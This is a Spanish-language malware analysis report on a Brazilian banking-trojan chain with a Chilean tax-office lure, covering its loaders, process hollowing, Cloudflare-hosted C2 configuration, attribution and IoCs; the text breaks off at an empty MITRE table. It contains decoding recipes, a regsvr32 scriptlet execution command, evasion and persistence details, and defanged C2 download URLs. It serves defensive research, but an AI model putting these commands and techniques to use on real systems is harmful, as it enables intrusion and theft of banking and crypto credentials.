

Es un nuevo scriptlet COM con **progid ApZxsWtQ** y **classid {F4BCDA9A-EB58-42BC-AD0F-A2874ADFCDA0}**.

### Desofuscación del scriptlet

Usa el mismo **XOR de clave rotatoria** de la Fase 2 *(aquí la función se llama **rVKY**)*, pero con una **clave distinta**, el arreglo **GnqLx** de 15 bytes. El procedimiento es idéntico: primero se extrae la clave a hexadecimal desde el arreglo en texto claro,

```
From_Decimal('Comma',false)
To_Hex('Space',0)
```



y luego se decodifican los arreglos del objeto **_e** con **Fork** *(un arreglo por línea, reiniciando la clave en cada uno)*:

```
Fork('\n','\n',false)
From_Decimal('Comma',false)
XOR({'option':'Hex','string':'55 47 a5 4d b0 4d 74 9e 39 ad 4f 48 c0 86 3b'},'Standard',false)
```



El resultado expone los **ProgID**, las llaves de registro, los **endpoints de descarga** y el dominio C2:

| **Arreglo** | **Valor decodificado**                                | **Uso**                              |
| ----------- | ----------------------------------------------------- | ------------------------------------ |
| `_e.a`      | `WScript.Shell`                                       | Ejecución, registro, variables       |
| `_e.b`      | `Scripting.FileSystemObject`                          | Archivos y carpetas                  |
| `_e.c`      | `Microsoft.XMLHTTP`                                   | Descargas                            |
| `_e.d`      | `ADODB.Stream`                                        | Escritura binaria de los ZIP         |
| `_e.e`      | `Shell.Application`                                   | Descomprimir y ejecutar              |
| `_e.f`      | `HKCU\Software\FluxEngine\Desktop\taskm`              | Marcador en registro                 |
| `_e.g`      | `HKCU\Software\FluxEngine\Desktop\src`                | Marcador en registro                 |
| `_e.h`      | `sii[.]cl-facturas[.]lat`                             | Valor de `src`                       |
| `_e.i`      | `<id_campaña>`                                        | Valor de `taskm` *(= el token `r=`)* |
| `_e.j`      | `hxxps://sii[.]cl-facturas[.]lat/registrar.php?acao=log` | Telemetría de estado              |
| `_e.k`      | `hxxps://sii[.]cl-facturas[.]lat/d/<ruta>?f=autoit&t=<ts>&h=` | AutoIt3 *(a1.zip)*          |
| `_e.l`      | `hxxps://sii[.]cl-facturas[.]lat/d/<ruta>?f=a3x&t=<ts>&h=`    | Script `.a3x` *(a2.zip)*     |
| `_e.m`      | `hxxps://sii[.]cl-facturas[.]lat/d/<ruta>?f=icone&t=<ts>&h=`  | Icono *(a3.zip)*             |

### Identificación del equipo (hostId)

Antes de descargar, el scriptlet genera un **hostId** determinístico: concatena **%COMPUTERNAME%** y **%USERNAME%** y los pasa por un hash que produce una cadena de **8 letras minúsculas**. Como depende solo del equipo y el usuario, **el mismo host siempre genera el mismo id**, lo que da idempotencia *(si ya está instalado, no reinstala)* y sirve como parámetro **h=** en las descargas.



### Preparación y evasión

El scriptlet inicia borrando rastros y marcando el sistema:

* **Limpieza de caché:** ejecuta **rundll32 InetCpl.cpl,ClearMyTracksByProcess 8**, que elimina los *Temporary Internet Files* de WinINet, borrando la evidencia de las descargas previas.
* **Marcadores en registro** *(solo en instalación nueva)*: escribe **HKCU\Software\FluxEngine\Desktop\taskm** con el **identificador de campaña** *(el mismo token **r=** de toda la cadena)* y **...\src** con el dominio C2.
* **Carpeta de instalación:** crea **C:\<hostId>\**.

### Descarga y despliegue del payload

Descarga tres archivos **ZIP** desde el endpoint **/d/<ruta>**, diferenciados por el parámetro **f=**: **f=autoit** *(el intérprete legítimo AutoIt3)*, **f=a3x** *(el script compilado del banker)* y **f=icone** *(un icono)*. Cada ZIP se guarda con **ADODB.Stream**, se descomprime con **Shell.Application** **CopyHere** y se elimina. Los artefactos quedan renombrados al hostId: **<hostId>.exe**, **<hostId>** y **<hostId>.ico**.



### Ejecución y ocultamiento

Con el intérprete y el script en disco, ejecuta **AutoIt3.exe <script>** de forma oculta mediante **ShellExecute**, y luego aplica **attrib +h +s** a la carpeta para marcarla como oculta y de sistema. El script **.a3x** lleva una **DLL embebida** que mapea directamente en memoria, por lo que nunca toca disco como **.dll**. Esa DLL no es el banker final, sino el **cargador** que se analiza en la Fase 5.

### Telemetría

A lo largo del proceso reporta su estado al panel vía **registrar.php?acao=log**, con los valores **iniciando**, **ja_instalado**, **baixado**, **executado** o **erro_exe_nao_existe**. El estado final **dll_ok** lo envía la propia DLL una vez cargada.

### Correlación

Dos elementos refuerzan que es la misma operación de las campañas previas: el nombre interno **FluxEngine** en las llaves de registro, y los **comentarios en portugués** dentro del propio código *(**Só grava rastreador/domínio em nova instalação**, **instalado será reportado pela DLL**)*. El señuelo es el **SII** de Chile, pero el builder y el operador son los mismos de habla portuguesa.

## Fase 4 — Loader AutoIt (el **.a3x**)

Los tres **ZIP** que descarga la fase anterior contienen el intérprete, el script y el icono, cada uno renombrado al hostId del equipo.



El **.a3x** del **a2.zip** —renombrado al hostId y sin extensión— es el **loader** que despliega la DLL. Al descompilarlo *(con **UnAutoIt**/**myAut2Exe**)* se confirma que la **DLL viaja embebida** dentro del propio script, como un blob en la variable **$DLLBINARY**. Los otros dos archivos son contexto: **<hostId>.exe** es el intérprete **AutoIt3 legítimo** *(firmado por AUTOIT CONSULTING LTD)* y **<hostId>.ico** es solo el icono.



Antes de desplegar nada, el loader espera a tener conectividad real: la función **_AGUARDAINTERNET** consulta en bucle **msftconnecttest.com** hasta recibir respuesta. Es un **gate de ejecución** que, de paso, descarta entornos de análisis sin salida a internet. Confirmada la red, extrae la DLL del **$DLLBINARY** y la ejecuta en memoria. Los nombres de función en portugués *(**_AGUARDAINTERNET**)* son el primer indicio de atribución de esta etapa.

Cabe señalar que el loader guarda la ruta de instalación en la variable de entorno **HOLLOW_DIR**, que corresponde al directorio base que utiliza posteriormente la DLL.

Por otro lado, al revisar los otros dos archivos en **VirusTotal**, el intérprete es detectado por solo 1 de 69 motores y figura como legítimo y firmado, mientras que el icono no presenta detecciones. Es decir, ninguno de los archivos que quedan en disco es malicioso por sí solo, la lógica se encuentra en el **.a3x** y en la DLL que este carga en memoria.



## Fase 5 — DLL bancaria (**dll_sii.bin**)

La DLL extraída del **$DLLBINARY** es el componente con la lógica real. Analizada en **IDA**, su rutina principal se identifica sola por los logs que trae compilados: **ExecutarHollowing**. No es el banker final en sí, sino el **cargador** que lo trae y lo inyecta.



### Descarga del payload en memoria

La DLL descarga la siguiente etapa desde una **URL hardcodeada** *(**<C2>/api/source-file.php?f=d3dx9_43.bin**)*. El nombre del archivo es un detalle de evasión: **d3dx9_43.bin** imita una librería de **DirectX** *(masquerading)*, de modo que, a ojos de un analista apurado o un filtro por nombre, pasa por un componente legítimo. La descarga se hace **en memoria vía wininet**, por lo que el payload nunca se escribe como archivo en disco. Como el nombre está compilado en la DLL, cambiarlo exige recompilar, lo que lo vuelve un **IoC estable** entre muestras.



### Descifrado en memoria

El payload no llega en claro: viaja **cifrado** y la DLL lo descifra en memoria en **dos etapas de AES** *(vía las APIs de **bcrypt/CNG** de Windows)*. El esquema usa una **clave embebida en la propia muestra** que abre una clave de sesión, y esta descifra el bloque principal hasta obtener un **PE** *(validado por la firma **MZ**)*. El objetivo es simple: el ejecutable real **nunca existe en texto claro en disco**, lo que derrota al análisis estático y a las firmas por archivo. Esa clave embebida, al mantenerse entre campañas, sirve además como **ancla de familia** para reglas de detección. En términos de MITRE, es **T1027.013** *(payload cifrado)* y **T1140** *(descifrado en runtime)*.



### Inyección por process hollowing

Con el PE ya descifrado en memoria, la DLL lo ejecuta mediante **process hollowing** *(**T1055.012**)*: crea un proceso legítimo en estado suspendido, reemplaza su imagen en memoria por el código malicioso y lo reanuda, de forma que el banker corre **bajo la identidad de un proceso de confianza**, sin que aparezca un binario sospechoso en el árbol de procesos. Antes de inyectar, la DLL consulta la versión del sistema *(**RtlGetVersion**)* para decidir entre el hollowing y un **modo directo** alternativo. Para la defensa, esto implica que la detección no puede basarse en el nombre del proceso, sino en el patrón de **creación suspendida + escritura de memoria remota + reanudación** desde un proceso inesperado.

### Atribución

La DLL es un **build release**: el logging está compilado como *stubs* *(los strings quedan en el binario, pero las funciones están vacías)*, un patrón de versión de producción. Esos strings —**ExecutarHollowing**, **DecifrarPayload**, **BaixarPayloadMemoria**, **Baixando payload em memoria**— están en **portugués**, consistentes con el operador pt-BR de toda la cadena. El perfil *(loader AutoIt + banker final con overlays bancarios, descarga cifrada, hollowing)* encaja con el cluster de **bankers LATAM** de habla portuguesa. La familia concreta se confirma con el **C2 de exfiltración** y la **lista de bancos objetivo**, que se detallan en la siguiente fase una vez descifrado el payload.

## Fase 6 — Payload bancario (**d3dx9_43.bin**)

El archivo **d3dx9_43.bin** que descarga y descifra la Fase 5 es el **payload final** de la cadena: el troyano bancario. Su nombre imita una librería de **DirectX** _(masquerading)_ y nunca se escribe en disco, sino que se descifra y ejecuta directamente en memoria. Una vez descifrado el blob hasta el **MZ**, el payload resulta ser un **PE compilado en Delphi** _(confirmado por las llaves **Software\CodeGear\Locales**)_ y sin empacar, de la rama **Casbaneiro / Mekotio** del ecosistema de bankers brasileños **Tetrade**.

A diferencia de las etapas anteriores, la configuración del banker se descifra en memoria en tiempo de ejecución, por lo que un **strings** sobre el binario en disco no entrega nada útil. Tras volcar la memoria una vez descifrado, se obtiene la configuración real del malware.

### Obtención de la configuración vía Cloudflare

El banker no lleva su C2 hardcodeado, sino que lo resuelve de forma dinámica consultando la **API de Cloudflare**. Mediante el token identificado en la Fase 5, consulta las zonas de la cuenta y lee los registros **DNS de tipo TXT**, de donde obtiene las URLs de sus servidores. Esto confirma lo observado en el análisis de infraestructura: el DNS es el canal de configuración del malware.


| **Uso**                          | **Valor**                                                            |
| -------------------------------- | ------------------------------------------------------------------- |
| API de Cloudflare _(config DNS)_ | `api.cloudflare.com/client/v4/zones`, `zones/%s/dns_records?type=TXT` |
| Descarga / subida de módulos     | `/api/source-file.php?f=`, `/api/upload-source.php?action=list`      |
| Geolocalización / IP pública     | `ip-api.com/line/?fields=query`                                      |
| Telemetría de estado             | `/registrar.php?acao=log&status=`                                    |

El uso de **ip-api.com** le permite obtener la IP pública y el país de la víctima, mientras que **/registrar.php?acao=log** es el mismo endpoint de telemetría de las etapas anteriores, lo que vuelve a enlazar el payload con el resto de la cadena.

### Persistencia y evasión

Ya en ejecución, el banker establece persistencia y verifica su entorno:


* **Persistencia:** se registra en **Software\Microsoft\Windows\CurrentVersion\Run** para ejecutarse en cada inicio de sesión.
* **Anti-VM:** busca artefactos de máquinas virtuales _(**VMwarePort**, **dll_sandbox**)_.
* **Anti-emulador:** adicionalmente, revisa rutas de **emuladores de Android** _(**BlueStacks**, **Nox**, **LDPlayer**)_, descartando entornos que no sean un Windows real.


### Control remoto en tiempo real

El banker incluye un módulo de **streaming de pantalla** que permite al operador ver y controlar el equipo de la víctima en vivo, consistente con la descripción del panel _("monitoramento de dispositivos em tempo real")_. El módulo implementa un protocolo propio de video:


| **Paquete** | **Contenido**                              |
| ----------- | ------------------------------------------ |
| `0x10`      | HELLO _(cadena identificadora)_            |
| `0x01`      | Frame JPEG completo                        |
| `0x02`      | DELTA _(regiones modificadas)_ / keepalive |
| `0x05`      | Configuración H.264 _(SPS/PPS)_            |
| `0x03`      | Frame H.264 IDR                            |
| `0x04`      | Frame H.264 P-frame                        |

El soporte de **H.264**, además del envío de frames JPEG, indica un módulo de acceso remoto maduro, orientado a transmitir la pantalla de forma eficiente durante una sesión activa.

### Objetivos: banca y criptomonedas

El binario incluye una lista de artefactos que comprueba en el equipo y de los cuales intenta robar credenciales. Más allá de la banca brasileña, el payload también apunta a **wallets de criptomonedas**, tanto extensiones de navegador como aplicaciones de escritorio:


| **Tipo**                           | **Objetivos**                                                               |
| ---------------------------------- | --------------------------------------------------------------------------- |
| Seguridad bancaria _(antifraude)_  | Warsaw _(Topaz OFD / GAS Tecnologia)_, Bradesco _(`scpbradguard.exe`)_      |
| Aplicaciones bancarias             | Bradesco _(AppBrad)_, Itaú, Sicoobnet                                       |
| Extensiones de wallet _(navegador)_ | MetaMask, OKX, Trust Wallet, Exodus, Coinbase, Phantom, Rabby, Enkrypt, Coinomi |
| Aplicaciones de wallet _(escritorio)_ | Exodus, Atomic, Electrum, Ledger Live, Trezor Suite                       |

Las extensiones se identifican por su **ID de extensión de Chrome** _(ej. MetaMask **nkbihfbeogaeaoehlefnkodbefgpgknn**)_, lo que le permite detectar su instalación directamente en el perfil del navegador. La presencia de módulos antifraude como **Warsaw** _(GAS Tecnologia, usado por la banca brasileña)_ y **scpbradguard** confirma que el objetivo principal es el cliente bancario de Brasil, mientras que la inclusión de wallets posiciona al payload también como **stealer de criptomonedas**.

### Comportamiento

Con los objetivos definidos, el banker monitorea las ventanas y procesos del equipo. Al detectar una entidad bancaria objetivo despliega un **overlay** _(una ventana falsa superpuesta)_ para capturar las credenciales que ingresa la víctima, y en el caso de las wallets intenta sustraer directamente los datos de la extensión o aplicación. Durante todo el proceso, el operador puede intervenir el equipo de forma remota desde el panel.

# Infraestructura Gestionada vía Cloudflare

Durante la revisión de la DLL _(Fase 5)_ se identificó, además de la URL de descarga, un **token de autorización** embebido en el binario, que la muestra utiliza en la cabecera **Authorization: Bearer** de sus peticiones hacia la **API de Cloudflare**.


El hallazgo es relevante, dado que el operador no utiliza Cloudflare únicamente como proxy, sino como **backend de configuración** de toda la operación. Los registros DNS de cada dominio almacenan la URL del payload, la versión del kit y la del C2, que el propio malware consulta para funcionar. Al quedar el token expuesto en la muestra, es posible revisar la actividad registrada en esa cuenta.

Cabe señalar que las **46 zonas** de esta cuenta no corresponden a los más de 200 dominios de phishing analizados anteriormente, sino a la infraestructura de **comando y control del banker** _(componentes de acceso remoto, versiones y C2)_. Ambas capas se enlazan mediante **remoto[.]painelst[.]com**, que es a la vez el valor de **lurlsource** en esta cuenta y el panel identificado en Shodan.

> Se automatizó la recolección de esta información, pero por motivos éticos no se divulgan las técnicas empleadas. A continuación se presenta únicamente el análisis de los datos obtenidos.

## Resumen

| **Dato**             | **Valor**                            |
| -------------------- | ------------------------------------ |
| Rango de actividad   | 2025-05-27 a 2026-11-23 _(18 meses)_ |
| Eventos              | 1.441                                |
| Zonas _(dominios)_   | 46                                   |
| IPs del operador     | 86                                   |
| Versiones del kit    | 469                                  |
| URLs de distribución | 508 _(en 14 hosts)_                  |

La actividad registrada se extiende de forma continua durante **18 meses**, con casi 1.500 eventos y 469 cambios de versión, lo que confirma que la operación no corresponde a un hecho aislado, sino a una campaña sostenida y en desarrollo activo.

## Configuración almacenada en DNS

Cada dominio no guarda únicamente su registro **A**. El kit crea una serie de subdominios cuyo valor es un dato de configuración, de modo que el malware obtiene lo que necesita mediante una consulta DNS:

| **Subdominio**                   | **Contenido**                   | **Ejemplo**                         |
| -------------------------------- | ------------------------------- | ----------------------------------- |
| `infra1` / `ip`                  | Clave e IP del servidor         | _(valor ofuscado)_                  |
| `infra2` / `infra3`              | URL del payload                 | `https://www.dropbox.com/scl/fi/...` |
| `versao` / `versaou`             | Versión del kit                 | `1.0.3.13`                          |
| `lremoto` / `lurlsource`         | URL del C2                       | `https://remoto[.]painelst[.]com`   |
| `bremote` / `bhtmls` / `bsource` | Marca de tiempo del build       | `20260715120000`                    |

De aquí se desprende la correlación que cierra el análisis: el valor de **lurlsource** apunta a **remoto[.]painelst[.]com**, el mismo panel identificado previamente en Shodan. Es decir, el panel del operador, la configuración en DNS y la muestra analizada forman parte de una única infraestructura.

## Evolución del kit

La propia cuenta permite reconstruir la evolución de la operación en tres generaciones, diferenciadas por cómo entrega el payload:

| **Generación** | **Periodo**         | **Características**                                                        |
| -------------- | ------------------- | ------------------------------------------------------------------------- |
| GEN-1          | 2025-05 a 2026-04   | Subdominios `infra1/2/3` + `versao`, payloads alojados en **Dropbox**     |
| GEN-2          | 2026-05 a 2026-06   | Componentes `b*` _(`bhtmls`, `bremote`, `bsource`...)_, payloads en **Mediafire** |
| GEN-3          | 2026-07 en adelante | `lurlsource` + `ip`, C2 **self-hosted** _(puerto `:444`)_                 |

La tendencia es clara: el operador migró desde servicios legítimos de terceros _(Dropbox, Mediafire)_ hacia infraestructura propia, lo que le entrega mayor control y reduce su dependencia de plataformas que pueden dar de baja el contenido.

## Hosting del payload

Las 508 URLs de distribución se reparten en 14 hosts, que confirman la migración entre generaciones:

| **Host**                                 | **URLs** | **Generación**      |
| ---------------------------------------- | -------- | ------------------- |
| `dropbox.com` / `dropboxusercontent.com` | 385      | GEN-1 / GEN-2       |
| `mediafire.com`                          | 37       | GEN-2               |
| `remoto[.]painelst[.]com`                | 29       | GEN-3 _(C2)_        |
| `38.54.57.156:444`                       | 17       | GEN-3 _(self-host)_ |
| `54.39.160.206`                          | 16       | GEN-1               |
| `remoto[.]ddins[.]click` _(:444)_        | 10       | GEN-3 _(C2)_        |

Cabe señalar que los hosts con puerto **:444** exponen el endpoint **/api/source-file.php?f=**, el mismo patrón de descarga que se encuentra hardcodeado en la DLL de la Fase 5, lo que confirma que el C2 de exfiltración pertenece a esta serie de servidores. Adicionalmente, parte del payload se alojó en **sitios legítimos comprometidos** _(**oalbertino-folgosinho[.]com**, **agdapiazzon[.]com[.]br**)_, lo que entrega al archivo la reputación de un dominio con historial.

## Puntos relevantes

* **Antigüedad:** La operación lleva al menos **18 meses activa** _(desde mayo de 2025)_, con desarrollo continuo del kit.
* **DNS como canal de configuración:** El operador abusa de la API de Cloudflare para publicar la configuración del malware en registros DNS, lo que le permite rotar servidores y versiones sin modificar la muestra.
* **Infraestructura propia:** La migración hacia servidores self-hosted _(puerto **:444**)_ indica una operación que busca independencia de plataformas de terceros.
* **Credencial comprometida:** En la zona **nutrasu[.]com** se observa el registro **pwned.nutrasu.com = "PWNED by Gizemli - access granted via Cloudflare API"**. Es decir, un tercero también obtuvo acceso a la cuenta con el mismo token, por lo que la credencial ya era conocida y utilizada por otros actores.

# Atribución

## Origen del operador

El conjunto de la evidencia apunta a un operador de habla **portuguesa (pt-BR)**:

* Las direcciones que administran la cuenta de Cloudflare son, en su mayoría, **IPv6 residenciales de Brasil** _(rangos **2804:...**)_.
* El panel _(**painelst[.]com**)_, sus avisos y los comentarios del código están en **portugués**, al igual que los nombres internos de la muestra _(**FluxEngine**, **ExecutarHollowing**, **DecifrarPayload**)_.
* El perfil de la cadena _(loader **AutoIt** + **DLL** con process hollowing, descarga cifrada y overlays bancarios)_ es consistente con el cluster de **bankers LATAM de habla portuguesa** _(estilo Casbaneiro / Mekotio)_.

En conjunto, se trata de una operación brasileña de banca que, manteniendo el mismo backend, expandió sus señuelos desde Brasil hacia **Chile, Portugal y Argentina**.

## Indicios de desarrollo asistido por IA

Al revisar las distintas fases, se observa un patrón particular en los comentarios del código: son uniformes entre una etapa y otra, explicativos, y describen el comportamiento de cada rutina de forma casi didáctica. Este estilo es poco común en malware escrito a mano y se asemeja más a código generado o documentado mediante **asistencia de IA**. Si bien no constituye una prueba concluyente, el conjunto de estos indicios permite estimar, con confianza media, que el operador se apoyó en este tipo de herramientas durante el desarrollo del kit.

Cabe destacar que esta tendencia no es aislada. El [equipo de investigación de **Securelist**](https://securelist.com/ksb-financial-and-crimeware-predictions-2025/114565/) ya anticipó el aumento de los ciberataques potenciados por IA como una de las líneas del crimeware para el período, lo que resulta coherente con lo observado en esta campaña.

## Familia y grupo

El perfil técnico permite acotar la familia de forma progresiva. En primer lugar, tanto el loader como el payload están compilados en **Delphi**, lo que descarta a los bankers brasileños modernos basados en **.NET** _(Coyote, Maverick, TCLBANKER)_. En segundo lugar, la amenaza no utiliza **DGA** ni el **RealThinClient SDK** para el control remoto, sino que resuelve su configuración por **DNS vía Cloudflare**, comportamiento que la aleja de **Grandoreiro**.

Lo que sí presenta es la firma característica de la rama **Casbaneiro / Mekotio** del ecosistema **Tetrade**: un cargador **AutoIt** que mapea en memoria una **DLL Delphi**, overlays bancarios e inyección por **process hollowing**. Sobre esa base, el actor incorpora capacidades de la generación actual —monitoreo del navegador vía **UI Automation**, robo de **wallets de criptomonedas** y un módulo de **HVNC**—, por lo que se evalúa, con **confianza media-alta**, que la amenaza corresponde a una variante o evolución dentro del cluster **Casbaneiro (Tetrade)**.

El actor identifica su propio payload como **FluxEngine**, nombre sin coincidencia pública conocida, que funciona como el identificador concreto de la operación y refuerza la hipótesis de una variante nueva dentro de dicha rama. Como anclas de correlación a nivel de muestra quedan los **imphash** de los componentes Delphi _(ver Indicadores de Compromiso)_; cabe señalar que el imphash en binarios Delphi es un discriminador débil entre familias, por lo que sirve como pivote e IOC de campaña, mientras que la asignación de familia se sostiene en los TTPs descritos.

# Indicadores de Compromiso (IoC)

Dado que el operador rota sus dominios de forma constante, los indicadores más estables son los de comportamiento e infraestructura:

| **Tipo**             | **Valor**                                                        |
| -------------------- | ---------------------------------------------------------------- |
| IP open directory    | `64.202.189[.]143`                                               |
| Panel / C2           | `remoto[.]painelst[.]com`, `remoto[.]ddins[.]click:444`, `38.54.57.156:444` |
| Ruta de descarga     | `/files/<dominio>/<16 hex>/<prefijo>-XXXXXX.zip`                |
| Endpoints            | `/gerar/gerar.php`, `/registrar.php`, `/api/source-file.php?f=` |
| User-Agent           | `Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)`            |
| Ejecución            | `regsvr32 /s /n /u /i:"%TEMP%\<x>.sct" scrobj.dll`              |
| Registro             | `HKCU\Software\FluxEngine\Desktop\taskm`                        |
| Payload _(masquerade)_ | `d3dx9_43.bin`                                                |
| SHA-256 _(loader `dll_sii.bin`)_ | `c3dc04853487b4a8f0e25a9527c250c45de5f8ba8153ec5e0c83ad834a0c81de` |
| SHA-256 _(banker `d3dx9_43` descifrado)_ | `b14f9ce21088185aa207acd225ded4b2ee967f67aa1316a117ef1108deee2edf` |
| SHA-256 _(`.a3x`, muta por víctima)_ | `245ef841c7f1346ae5b5ce4b2dc33366fc0b4a6088cf4046becfb0816a6fb862` |
| imphash _(loader Delphi)_ | `95a42b403171b8f9c862cff5926cec3b` |
| imphash _(banker Delphi)_ | `1869a844633307e61fc269733d519af2` |

El listado completo de dominios _(221 dominios y 1 IP)_ se mantiene actualizado en el repositorio [IOC_Brasil_Campaña_Banking.csv](https://github.com/NaotaClone/IOC/blob/main/IOC_Brasil_Campa%C3%B1a_Banking.csv).

# MITRE ATT&CK

El mapeo resumido de la operación, agrupado por táctica, es el siguiente:

| **Táctica**          | **Técnicas**                                                                                    |
| -------------------- | ----------------------------------------------------------------------------------------------- |
